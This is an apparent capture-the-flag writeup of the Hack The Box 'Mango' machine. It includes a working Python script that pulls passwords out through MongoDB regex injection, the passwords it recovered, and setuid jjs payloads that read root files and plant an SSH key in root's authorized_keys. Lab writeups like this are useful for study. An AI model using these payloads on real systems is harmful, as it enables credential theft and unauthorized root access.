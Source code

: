 ```yaml
---
title: Mango HTB Writeup
date: '2020-04-18 20:00:00'
categories: ["htb"]
banner_img: /img/Mango.png
---
```


From nmap we can see 3 open ports `22,80,443`, visting port 80 we cannot see anything because we get a 403 status Forbidden.  

Visiting port 443, there is something like a google search named Mango, which does nothing. Also there is a file named analytics.php which pulls code from codepen, but nothing of interest there. Viewing the ssl cert info I was able to extract a domain: *staging-order.mango.htb*. I add this to my /etc/hosts file.  

staging-order.mango.htb is a website with login form, I intercept the requests there and try some nosql injections but nothing. Given the name of box(Mango) I think of mongodb, so I start and search for mongodb sql injection, I stubled accross a ctf writeup https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/. I try to do the same and find that the regex indded works, so I create a scipt to extarct the password using mango as username.

```
import requests
import string

url = 'http://staging-order.mango.htb'
username='mango'
password=''

while True:
    for chars in string.printable:
        if chars not in ['[', '\\','^','$','.','|','?','*','+','(',')']: #else this would break the regex
                payload = {'username': username, 'password[$regex]': "^" + password + chars, 'login': 'login'}
                r = requests.post(url, data=payload, allow_redirects=False)
                if r.status_code == 302:
                    print ("Found one char: %s" % password+chars)
                    password += chars

```

I found the password **h3mXK8RhU~f{]f5H** and try to login but I get a page under construction, which leads me nowhere. I remeber I had ssh open.  

I ssh as mango using the password I found previously, I then try to read user.txt but that file is owned by `admin` which seems another user, the same password as mango for admin on ssh does not work, so I try to use the script again but this time using admin as the username.  

I find another password **t9KcS3>!0B#2**, now I can read user.txt! Using LinEnum.sh I try to find any anomalies in the box, but nothing comes up, so I run it again but this time adding -t to do a thorough test.  I found that `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` has setuid permission so I can run it as root user.

Going to https://gtfobins.github.io/ I search for jjs and find that I can use the following code to read a file, so I read root.txt:

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

I now can submit root.txt file but I wasn't really logged in as root.

I can also see I can use another code to write into a file so I paste my public ssh key:

```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc......");
fw.close();' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

And now I can ssh into the box using root username, and login as root.